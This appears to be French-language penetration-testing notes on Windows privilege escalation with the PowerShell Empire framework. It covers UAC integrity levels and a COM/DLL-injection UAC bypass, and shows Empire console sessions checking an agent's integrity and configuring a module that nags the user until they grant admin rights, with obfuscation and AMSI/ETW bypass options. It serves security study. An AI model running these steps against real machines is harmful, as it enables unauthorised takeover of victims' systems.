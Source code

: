 
A partir de **Windows Vista**, le concept d'**UAC** (User Account Control) à été introduit ce qui permet au process d'avoir **3 niveaux differents de permission** :

- **HIGH**: Droit **administrateur**
- **MEDIUM**: Droit d'**utilisateur** standard
- **LOW**: **Restreint** à certaines autorisations

# __High_integrity__

Pour avoir l'information sur les **permissions que nous avons** sur notre backdoor Empire, on execute la commande **[`info`](Powershell_empire#####Info)**. La ligne **high_integrity**, par defaut **False**, indique notre **niveau de permission**.

```shell
(Empire: GYRE59LF) > info

┌Agent Options─────┬───────────────────────────────────────────────┐
│ session_id       │ GYRE59LF                                      │
├──────────────────┼───────────────────────────────────────────────┤
(...)
├──────────────────┼───────────────────────────────────────────────┤
│ username         │ LAPTOP\User                                   │
├──────────────────┼───────────────────────────────────────────────┤
│ high_integrity   │ False                                         │
├──────────────────┼───────────────────────────────────────────────┤
│ process_id       │ 12828                                         │
├──────────────────┼───────────────────────────────────────────────┤
(...)
```

# __Windows 7__

## __Techniques__

Sous Windows 7, il existe plusieurs méthode pour **escalader nos privilège** :

- **Exploit d'une vulnerabilité** applicative ou système
- Faire exécuter une action en **trompant un administrateur**
- Trouver une **DB** locale de **password**
- Réutiliser des **identifiants déjà trouvés** sur une autre machine du réseau
- ...


## __Bypass UAC__

### Working

#### 1st

Certains **objets COM** ont la capacité d'**élever leurs permissions** lorsqu'ils sont appelés **depuis un programme signé** par un certificat *code signing* Microsoft.

Pour les programmes non signés, il est possible d'**injecter une dll dans un programme signé** (calc.exe par exemple). Cette dll peut donc **appeler un objet COM** qui effectuera une **auto-élévation**. 

#### 2nd

Une fois cela fait, on doit passer d'une copie de fichier à une exécution de code. Pour cela, certains programmes de Windows peuvent s'auto-elever sans notification (*sysrep* par exemple).

### Usage

Il est donc possible sur notre client windows 7 de passer administrateur avec la commande `bypassuac`


# __Windows 10__

## __Ask__

Une technique consiste simplement à demander à l'utilisateur en boucle jusqu'à ce qu'il accepte.

Pour cela on va utiliser le module `powershell_privesc_ask`.

```shell
(Empire: 9UPHL3C1) > usemodule powershell_privesc_ask
INFO: Set Agent to 9UPHL3C1 

 id           powershell_privesc_ask                                                 
 authors      Jack64, ,                                                              
 description  Leverages Start-Process -Verb runAs option inside a YES-Required loop 
              to prompt the user for a high integrity context before running the     
              agent code. UAC will report Powershell is requesting Administrator     
              privileges. Because this does not use the BypassUAC DLLs, it should    
              not trigger any AV alerts.                                             
 background   True                                                                   
 language     powershell                                                             
 needs_admin  False                                                                  
 opsec_safe   False                                                                  
 techniques   http://attack.mitre.org/techniques/T1088                               
 comments     https://github.com/rapid7/metasploit-                                  
              framework/blob/master/modules/exploits/windows/local/ask.rb            


┌Record Options────┬────────────────────┬──────────┬─────────────────────────────────────┐
│ Name             │ Value              │ Required │ Description                         │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Agent            │ 9UPHL3C1           │ True     │ Agent to run module on.             │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Listener         │                    │ True     │ Listener to use.                    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Obfuscate        │ False              │ False    │ Switch. Obfuscate the launcher      │
│                  │                    │          │ powershell code, uses the           │
│                  │                    │          │ ObfuscateCommand for obfuscation    │
│                  │                    │          │ types. For powershell only.         │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ ObfuscateCommand │ Token\All\1        │ False    │ The Invoke-Obfuscation command to   │
│                  │                    │          │ use. Only used if Obfuscate switch  │
│                  │                    │          │ is True. For powershell only.       │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Bypasses         │ mattifestation etw │ False    │ Bypasses as a space separated list  │
│                  │                    │          │ to be prepended to the launcher.    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ UserAgent        │ default            │ False    │ User-agent string to use for the    │
│                  │                    │          │ staging request (default, none, or  │
│                  │                    │          │ other).                             │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ Proxy            │ default            │ False    │ Proxy to use for request (default,  │
│                  │                    │          │ none, or other).                    │
├──────────────────┼────────────────────┼──────────┼─────────────────────────────────────┤
│ ProxyCreds       │ default            │ False    │ Proxy credentials                   │
│                  │                    │          │ ([domain\]username:password) to use │
│                  │                    │          │ for request (default, none, or      │
│                  │                    │          │ other).                             │
└──────────────────┴────────────────────┴──────────┴─────────────────────────────────────┘

(Empire: usemodule/powershell_privesc_ask) > set Listener http
INFO: Set Listener to http

```